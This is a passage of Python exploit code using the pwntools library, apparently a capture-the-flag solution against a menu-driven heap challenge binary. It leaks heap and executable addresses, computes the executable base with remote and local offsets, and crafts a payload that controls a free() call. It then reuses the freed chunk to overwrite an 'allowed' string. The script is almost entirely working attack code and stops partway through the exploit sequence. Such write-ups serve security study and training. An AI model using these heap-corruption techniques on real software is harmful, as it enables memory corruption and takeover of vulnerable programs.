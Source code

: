 ```py
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"0")

heap_leak = int(p.recvline().strip(),16)
log.info(f"{hex(heap_leak)=}")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"1")

exe_leak = int(p.recvline().strip(),16)
exe_base = exe_leak - 0x1e89 # remote
# exe_base = exe_leak - 0x1e8c # local - slightly different offset remotely and locally, but we know the base should be a round number, so not an issue
log.info(f"{hex(exe_base)=}")

allowed_str_addr = exe_base + 0x4020
log.info(f"{hex(allowed_str_addr)=}")

tag_ptr = heap_leak + 0x100
log.info(f"address of tag_ptr for cmd 2: {hex(tag_ptr)}")

tag_ptr=str(hex(tag_ptr))
payload_for_free = b" " + bytes.fromhex(tag_ptr[12:14]) +bytes.fromhex(tag_ptr[10:12]) +bytes.fromhex(tag_ptr[8:10]) +bytes.fromhex(tag_ptr[6:8]) +bytes.fromhex(tag_ptr[4:6]) +bytes.fromhex(tag_ptr[2:4]) + b" " + b"E"*4 + b" " + b"F"*0x4 + b" "

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(payload_for_free) # need 3 args to control free
p.recvuntil(b">>")
p.sendline(b"G"*8)

p.recvuntil(b">>") # free tag pointer
p.sendline(b"5")
p.recvuntil(b">>")
p.sendline(b"1")

allowed_str_addr=str(hex(allowed_str_addr))
byte_addr_allowed = bytes.fromhex(allowed_str_addr[12:14]) + bytes.fromhex(allowed_str_addr[10:12]) + bytes.fromhex(allowed_str_addr[8:10]) + bytes.fromhex(allowed_str_addr[6:8]) + bytes.fromhex(allowed_str_addr[4:6]) + bytes.fromhex(allowed_str_addr[2:4]) + b"\x00\x00"

p.recvuntil(b">>") 
p.sendline(b"4")
p.recvuntil(b">>")
p.sendline(b"0") 
p.recvuntil(b">>")
p.sendline(b"y") # creates a 0x30 chunk
p.recvuntil(b">>")
p.sendline(byte_addr_allowed) 

p.recvuntil(b">>") # edit allowed string
p.sendline(b"3")
p.recvuntil(b">>")
p.sendline(b"1") 
p.recvuntil(b">>")
```